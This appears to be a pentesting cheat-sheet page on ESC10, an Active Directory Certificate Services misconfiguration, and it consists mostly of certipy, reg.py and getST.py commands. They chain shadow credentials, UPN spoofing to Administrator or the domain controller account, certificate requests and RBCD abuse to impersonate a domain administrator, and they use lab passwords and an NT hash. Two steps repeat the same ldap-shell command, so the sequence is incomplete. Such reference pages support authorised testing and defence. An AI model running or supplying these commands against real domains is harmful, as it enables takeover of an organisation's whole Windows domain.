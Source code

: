 ```yaml
---
description: ESC | Active Directory Certificate Services
---
```


# ESC10

ESC10 is a misconfiguration in the `StrongCertificateBindingEnforcement` registry key, that key handles certificate mapping during Kerberos authentication.&#x20;

```bash
# Reviewing registry keys ad administrator
reg.py 'lab'/'Administrator':'Password123!'@10.129.205.199 query -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Kdc'

# Get Shadow Credentials user2
certipy shadow auto -u 'BlWasp@lab.local' -p 'Password123!' -account user2

# Change user2 UPN to Administrator
certipy account update -u 'BlWasp@lab.local' -p 'Password123!' -user user2 -upn administrator@lab.local

# Get certificate with User template
certipy req -u 'user2@lab.local' -hashes 2b576acbe6bcfda7294d6bd18041b8fe -ca lab-LAB-DC-CA -template User

# Revert back to user2
certipy account update -u 'BlWasp@lab.local' -p 'Password123!' -user user2 -upn user2@lab.local

# Auth as administrator
certipy auth -pfx administrator.pfx -domain lab.local
```

Another case is related to a misconfiguration in the `CertificateMappingMethods`. Because the registry key handles Schannel authentication we cannot authenticate using PKINIT. On certipy we can use -ldap-shell to authenticate with Schannel

```bash
# Check registry
reg.py 'lab'/'Administrator':'Password123!'@10.129.205.199 query -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL'

# Update account to match DC machine name
certipy account update -u 'BlWasp@lab.local' -p 'Password123!' -user user2 -upn 'lab-dc$@lab.local'

# Get certificate as user2 which will give DC certificate
certipy req -u 'user2@lab.local' -hashes 2b576acbe6bcfda7294d6bd18041b8fe -ca lab-LAB-DC-CA -template User

# Revert changes
certipy account update -u 'BlWasp@lab.local' -p 'Password123!' -user user2 -upn user2@lab.local

# Create new computer account using Schannel
certipy auth -pfx lab-dc.pfx -domain lab.local -dc-ip 10.129.205.199 -ldap-shell

# Set rights RBCD on new computer
certipy auth -pfx lab-dc.pfx -domain lab.local -dc-ip 10.129.205.199 -ldap-shell

# Abuse RBCD and get Service Ticket 
getST.py -spn cifs/LAB-DC.LAB.LOCAL -impersonate Administrator -dc-ip 10.129.205.199 lab.local/'plaintext$':plaintext123
```

{% hint style="danger" %}
With error: `[-] Kerberos SessionError: KRB_AP_ERR_BADMATCH(Ticket and authenticator don't match)` it means that is trying to use the enviroment variable `KRB5CCNAME` we can use the following command to remove the variable: `unset KRB5CCNAME`
{% endhint %}

